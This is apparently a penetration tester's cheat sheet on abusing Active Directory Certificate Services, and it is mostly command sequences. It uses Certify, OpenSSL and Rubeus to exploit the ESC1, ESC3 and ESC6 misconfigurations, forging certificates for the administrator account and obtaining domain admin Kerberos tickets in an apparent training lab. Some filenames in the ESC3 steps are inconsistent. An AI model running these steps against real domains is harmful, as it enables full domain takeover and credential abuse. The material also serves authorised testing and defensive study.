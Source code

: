 # AD CS

[Active Directory Certificate Services](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview) (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.

## Tools

Certify and Certipy tools to enumerate and abuse misconfigurations in AD CS:

{% embed url="https://github.com/GhostPack/Certify" %}
Certify
{% endembed %}

{% embed url="https://github.com/ly4k/Certipy" %}
Certipy
{% endembed %}

## Enumerate

```batch
:: all registered CAs
Certify.exe cas
:: enumerate templates
Certify.exe find
:: enumerate vulnerable templates
Certify.exe find /vulnerable
```

## Abuse

### ESC1

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find /enrolleeSuppliesSubject

# Request cert domain admin
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator

# OR Request cert domain admin
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator

# Convert it to pfx and set password
openssl pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:123456 /ptt
# Klist purge and restart if this line fails
```
{% endcode %}

### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find /vulnerable

# Request a certificate based on vulnerable template
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template

# Convert it to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Request a certificate on behalf of DA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template /onbehalfof:dcorp\administrator /enrollcert:esc3.pfx /enrollcertpw:123456

# Convert it again to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Get TGT using the pfx certificate
Rubeus.exe asktgt /user:administrator /certificate:esc3.pfx /password:123456 /ptt

```
{% endcode %}

### ESC6

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.\
This flag allows the enrollee to specify an arbitrary Subject Alternative Name (SAN) on all certificates despite a certificate template's configuration.

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find 

# Request cert
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:<vul_template> /altname:administrator

# Convert it to pfx and set password
openssl pkcs12 -in esc6.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc6.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:123456 /ptt
```
{% endcode %}
